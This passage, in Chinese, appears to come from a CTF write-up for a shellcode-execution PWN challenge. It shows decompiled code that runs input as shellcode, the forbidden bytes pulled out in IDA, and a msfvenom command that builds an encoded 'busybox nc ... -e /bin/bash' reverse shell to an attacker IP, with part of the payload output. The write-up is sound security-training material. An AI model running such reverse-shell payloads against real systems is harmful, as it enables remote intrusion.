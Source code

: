 ```c
        if (v17 == v11[i])  // 发现禁用字符
          break;
        ++v23;
      }
      if (!v25)
        break;
    }
  
    if (!v25) {
      write(1LL, "Hackers, get out of my machine\n", ...);
      close(v21);
    } else {
      v15 = (void (*)(void))mmap64(0LL, v20, 7LL, 34LL, 0xFFFFFFFFLL, 0LL);
      // 分配可执行内存 (RWX)
      j_memcpy(v15, v11, v20);  // 复制 shellcode
      v15();  // 执行 shellcode
      munmap(v15, v20);
    }
  }
}
```

**关键发现**：

1. 程序监听 6666 端口
2. 接收用户输入并检查是否包含 **禁用字节**（`forbidden_bytes`）
3. 如果输入合法，将其作为 **shellcode 执行**（典型的 PWN 题）

## 3.3 提取禁用字节

在 IDA 中查看 `.rodata` 段的 `forbidden_bytes`：

```assembly
.rodata:000000000053C009 _ZL15forbidden_bytes db 0x00  ; NULL
.rodata:000000000053C00A                 db 0x20  ; 空格
.rodata:000000000053C00B                 db 0x0F  ; syscall 前缀
.rodata:000000000053C00C                 db 0xCD  ; int 指令
.rodata:000000000053C00D                 db 0x09  ; Tab
.rodata:000000000053C00E                 db 0x22  ; 双引号
```

禁用字符为：`\x00\x20\x0f\xcd\x09\x22`

# 四、Shellcode 生成与利用

## 4.1 生成编码 Shellcode

使用 `msfvenom` 生成经过编码的反向 shell payload，避开禁用字符：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ msfvenom -p linux/x64/exec CMD="busybox nc 192.168.205.128 8888 -e /bin/bash" -b '\x00\x20\x0f\xcd\x09\x22' -f python

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 127 (iteration=0)
x64/xor chosen with final size 127
Payload size: 127 bytes
Final size of python file: 640 bytes
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf5\xff\xff\xff\x48\x8d"
```